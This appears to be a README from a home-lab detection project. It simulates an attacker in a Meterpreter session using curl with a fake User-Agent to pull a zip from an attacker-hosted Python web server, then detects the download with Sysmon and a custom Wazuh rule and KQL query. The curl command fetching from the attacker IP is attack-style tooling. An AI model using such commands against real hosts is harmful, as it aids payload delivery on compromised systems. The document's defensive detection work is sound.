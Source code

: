 # Phase 2: Scenario 1 - Suspicious ZIP File Download

## Attack Overview
- **Description**: Simulated a post-compromise action where the attacker, using a Meterpreter session, downloads a suspicious `.zip` file from the Arch Linux VM to the Ubuntu VM, mimicking malicious payload delivery or data staging. Suspicious downloads often use uncommon User-Agents or external IPs.
- **MITRE ATT&CK**: 
  - [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- **Objective**: Demonstrate detection of suspicious archive file downloads using Sysmon and Wazuh on Ubuntu, triggered via Meterpreter commands.
- **Date and Time**: June 14, 2025, ~10:55 PM IST

## Simulation Details
- **Environment**: 
  - **Target**: Ubuntu 24.04.2 LTS (hostname: `Ubuntu-SIEM`, IP: `192.168.1.2`, Wazuh agent: `ubuntu-2024.04.2`).
  - **Attacker**: Arch Linux (IP: `192.168.1.55`).
- **Sysmon Config**: Custom `config.xml` (artifact ID: `36f3b86c-313c-4105-b39b-6d3307f9e5d3`).
- **Simulation Command From Arch Linux**:
  ```bash
  echo "This is a test file" > /tmp/test.txt
  zip /tmp/suspicious.zip /tmp/test.txt
  python3 -m http.server 80 -d /tmp/
  ```
- **Simulation Command From Ubuntu (via Meterpreter)**:
  In Meterpreter session:
  ```
  shell
  curl -A "SuspiciousAgent/1.0" -o /tmp/suspicious.zip http://192.168.1.55:80/suspicious.zip
  exit
  ```
- **Execution**:
  1. Created a benign `.zip` file (`suspicious.zip`) on Arch Linux.
  2. Hosted the file on a Python web server.
  3. From the existing Meterpreter session on Ubuntu, opened a shell and used `curl` with a custom User-Agent to download the `.zip`.
  4. Verified file creation on Ubuntu.
- **Expected Events**:
  - **Sysmon Event ID 11**: File creation of `/tmp/suspicious.zip`.
  - **Sysmon Event ID 1**: Process creation of `curl` with `SuspiciousAgent/1.0`.
  - **Sysmon Event ID 3**: Network connection to `192.168.1.55:80`.
  - **Wazuh**: Alerts triggered by custom rule ID 100001.

## Detection in Wazuh
- **Wazuh Rule**: Custom rule ID 100001 (from `custom_rules.xml`, artifact ID: `f4e06552-dc85-49ca-aa77-cee4f332a6d0`):
  ```xml
  <rule id="100001" level="12">
    <if_sid>61611</if_sid>
    <field name="sysmon.target_filename">\.zip$|\.rar$|\.7z$</field>
    <field name="sysmon.command_line">192\.168\.1\.55</field>
    <description>Suspicious archive file downloaded from attacker IP</description>
    <mitre>
      <id>T1105</id>
    </mitre>
  </rule>
  ```
- **Search Query** (Wazuh Dashboard > Security Events > Discover):
  ```kql
  rule.id:100001 AND agent.name:ubuntu-2024.04.2 AND sysmon.target_filename:"/tmp/suspicious.zip" AND sysmon.command_line:"192.168.1.55"
  ```
- **Findings**:
  - Observed 1+ alerts with `rule.id:100001`.
  - Sysmon Event ID 11 logged file creation of `/tmp/suspicious.zip`.
  - Event ID 1 captured `curl` execution with `SuspiciousAgent/1.0`.
  - Event ID 3 logged connection to `192.168.1.55:80`.
  - High `rule.level:12` indicates significant alert.
- **Screenshots**:
  - `Screenshots/wazuh_alerts_zip.png`: Wazuh Dashboard alert list.
  - `Screenshots/sysmon_log_zip.png`: Sysmon events in `/var/log/syslog`.
  - `Screenshots/meterpreter_zip_download.png`: Meterpreter shell output.
- **Logs**:
  - `Logs/sysmon_syslog_zip.txt`: Exported `/var/log/syslog` entries.
  - `Logs/wazuh_agent_filtered_zip.log`: Wazuh agent log entries.

## Learnings
- **Blue Teaming Insight**: Suspicious archive downloads are detectable through file creation and network activity. Sysmon’s file and network monitoring, combined with Wazuh’s custom rules, identifies post-compromise data staging.
- **Challenges**: Legitimate `.zip` downloads may trigger false positives; filtering by User-Agent or attacker IP reduces noise. Meterpreter shell commands may evade some detections if not logged properly.
- **Technical Growth**: Learned to execute network commands via Meterpreter, configure Sysmon for archive detection, and refine Wazuh KQL queries for file-based alerts.
- **Best Practice**: Monitor `/tmp` for archive files and set alerts for downloads from external IPs with unusual User-Agents.

## Detection Logic Query
```kql
rule.id:100001 AND agent.name:ubuntu-2024.04.2 AND sysmon.target_filename:"/tmp/suspicious.zip" AND sysmon.command_line:"192.168.1.55"
```
- **Purpose**: Identifies suspicious archive downloads by detecting `.zip` file creation from the attacker IP.
- **Outcome**: High-severity alert for unauthorized downloads, reducing false positives with filename and IP specificity.

## References
- [MITRE ATT&CK: Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- [Wazuh Documentation: Sysmon Integration](https://documentation.wazuh.com/current/user-manual/ruleset/sysmon.html)
- [Metasploit: Meterpreter Shell](https://docs.metasploit.com/docs/using-metasploit/basics/meterpreter.html)

## Attachments
- **Logs**: [Wazuh Log JSON](/DetectAndDefend/phase2/Scenario-1-Suspicious%20Zip%20File%20/logs/log1.json)
- **Screenshots**:
  1. [Attack Simulation from Meterpreter](/DetectAndDefend/phase2/Scenario-1-Suspicious%20Zip%20File%20/Screenshots/Arch-Linux-Attacker-MSF-Console.png)
  2. [Ubuntu Download Folder](/DetectAndDefend/phase2/Scenario-1-Suspicious%20Zip%20File%20/Screenshots/ubuntu-downloads-folder.png)
  3. [Wazuh Dashboard with Event Logs Only](/DetectAndDefend/phase2/Scenario-1-Suspicious%20Zip%20File%20/Screenshots/wazuh-dashboard-with-events-logged.png)
  4. [ Wazuh Event Log](/DetectAndDefend/phase2/Scenario-1-Suspicious%20Zip%20File%20/Screenshots/wazuh-log-1.png)